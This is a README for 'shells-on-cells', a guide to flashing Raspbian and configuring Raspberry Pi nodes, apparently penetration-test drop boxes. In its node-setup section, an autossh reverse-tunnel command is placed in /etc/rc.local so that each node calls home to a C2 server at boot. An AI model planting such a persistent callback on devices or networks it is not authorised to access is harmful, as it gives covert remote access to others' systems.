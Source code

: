 # shells-on-cells
# Build rpi Image on Mac

Download Raspberian:
https://www.raspberrypi.org/downloads/raspbian/

Select RASPBIAN STRETCH 

Download latest-raspbian-stretch.zip and unarchive it, delete the archive, then use: laatest-raspbian-stretch.img in the next step

Open a terminal window and type:

$ diskutil list

Find the disk with the label you want: 

/dev/disk0 (internal, physical):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:      GUID_partition_scheme                        *800.2 GB   disk0
   1:                        EFI WRONG_DISK              209.7 MB   disk0s1
   2:          Apple_CoreStorage WRONG_DISK              799.3 GB   disk0s2
   3:                 Apple_Boot WRONG_DISK              650.0 MB   disk0s3

/dev/disk1 (internal, virtual):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:                  Apple_HFS WRONG_DISK             +798.9 GB   disk1
                                 Logical Volume on disk0s2
                                 00000000-0000-0000-0000-000000000000
                                 Unlocked Encrypted

/dev/disk2 (external, physical):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:     FDisk_partition_scheme                        *15.8 GB    disk2
   1:               Windows_NTFS WRONG_DISK              15.8 GB    disk2s1

*/dev/disk3 (external, physical):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:     FDisk_partition_scheme                        *31.9 GB    disk3
   1:             Windows_FAT_32 RIGHT_DISK              43.5 MB    disk3s1
   2:                      Linux                         31.9 GB    disk3s2

Find the disk you want and use:
(In my example my usb adapted for SD cards at this moment is /dev/disk3)

$ diskutil unmountDisk /dev/rdisk3

To unmount the selected disk you want

$ sudo dd bs=8m if=~/Downloads/2017-11-29-raspbian-stretch-lite.img of=/dev/rdisk3

After you put in your password it will work silently until it produces the following output:

221+1 records in
221+1 records out
1858076672 bytes transferred in 399.146789 secs (4655121 bytes/sec)

The drive will mount drop an empty "ssh" file into the root of the boot partition, and upon first boot the rpi will be in headless mode for the next steps in the configuration.



# Node Setup


Put the SD into the PI boot the pi and give it ethernet and you should be able to find it and ssh to it.
*If using a raspberry pi zero use this guide to get it up and running using the OTG port: https://learn.adafruit.com/turning-your-raspberry-pi-zero-into-a-usb-gadget/ethernet-gadget

Default User: pi
Default Pass: raspberry

Upon first login you get a warning to update the password

$ passwd

$ sudo apt update

$ sudo apt upgrade

$ sudo apt autoremove

$ sudo apt install bash-completion openssh-server autossh gpsd aircrack-ng dnsmasq hostapd

Use raspi-config to configure network before boot, and hostname

$ sudo raspi-config

Select Option 2, N1, then set hostname
Select Option 3, B2, Yes, Ok

When you exit it will ask to reboot, go ahead and reboot and reconnect
You should be connecting with your new password and the hostname should be changed

Regenerate Host Keys

Step # 1: Delete old ssh host keys

Login as the root and type the following command to delete files on your default SSH keys for the server:

$ sudo su -

# rm -v /etc/ssh/ssh_host_*

Step # 2: Reconfigure OpenSSH Server

Now create a new set of keys on your SSHD server, enter:

# dpkg-reconfigure openssh-server

You just regenerated new ssh server keys. You can restart ssh server:

# systemctl restart ssh
OR
# /etc/init.d/ssh restart

And logout of root

# exit

Now Make SSH Keys For node and copy them off so you have them. 

mkdir ~/.ssh
chmod 700 ~/.ssh
ssh-keygen -f ~/.ssh/ptdb_name_rsa -t rsa -b 4096 -N ''

Edit the following configuration files with the configurations:

sudo nano /etc/rc.local    Use /etc-rc.local

autossh -fN -R <ptdb port>:localhost:<c2 port for ptdb> <c2 user>@<c2 domain> -p <c2 port for ssh> -i /home/pi/.ssh/<nodename_rsa> &


Replacing the <ptdb port> with this ptdb's port that it will communicate to c2 with
Replace <c2 port for ssh> with the port the c2 does com over
Replace <c2 port for ptdb> with port number on c2 to use for this node
Replace <c2 user> with the username the n0d3z should call home too
Replace <c2 domain> with the domain or IP of the c2

sudo nano /etc/network/interfaces    Use /etc-network-interfaces

sudo nano /etc/ssh/ssh_config      Use /etc-ssh-ssh_config ptdb

sudo nano /etc/ssh/sshd_config       Use /etc-ssh-sshd_config ptdb

Now SSH to c2 with the same ssh command from yoursystem$, add fingerprint when prompted.

sudo nano /etc/ssh/ssh_config      Use /etc-ssh-ssh_config c2

sudo nano /etc/ssh/sshd_config       Use /etc-ssh-sshd_config c2

yoursystem$ ssh <c2 user>@<c2 domain> -p <c2 port for ssh> -i ~/.ssh/<c2key or ptdbkey>

c2$ ssh pi@localhost -p <c2 port for ptdb> -i ~/.ssh/<ptdbkey>

Reboot and netstat your c2 for your ptdb's

# C2 Configuration 

configure ssh enabled user
Copy node keys to ~/.ssh/
Open ssh port to machine
Disable password auth via ssh
Enable key-based login

Test Connection

$ netstat -an |grep <c2 port for ptdb> 











